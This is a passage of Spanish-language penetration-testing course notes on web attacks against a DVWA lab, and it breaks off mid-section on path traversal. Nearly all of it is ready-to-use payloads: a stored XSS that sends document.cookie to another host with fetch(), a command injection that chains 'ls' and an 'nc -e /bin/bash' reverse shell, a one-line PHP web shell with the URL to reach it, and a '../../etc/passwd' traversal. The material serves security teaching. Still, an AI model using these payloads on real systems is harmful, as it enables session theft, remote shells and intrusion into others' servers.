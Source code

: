 ### XSS Reflejado

```html
<script>alert('XSS')</script>
```

### XSS Persistente

Inyectar código que se guarda en la base de datos:

```html
<script>fetch('http://192.168.56.10/steal?cookie='+document.cookie)</script>
```

---

## 13.6. Command Injection

Si un formulario ejecuta `ping` en el backend:

```plaintext
127.0.0.1; ls -la
```

Ejemplo con DVWA:

```bash
; nc -e /bin/bash 192.168.56.10 4444
```

---

## 13.7. File Upload Vulnerability

Subir una shell PHP:

```php
<?php system($_GET['cmd']); ?>
```

Acceder:

```plaintext
http://192.168.56.101/uploads/shell.php?cmd=whoami
```

---

## 13.8. Path Traversal

Intentar:

```plaintext
../../../../etc/passwd
```

En Windows:
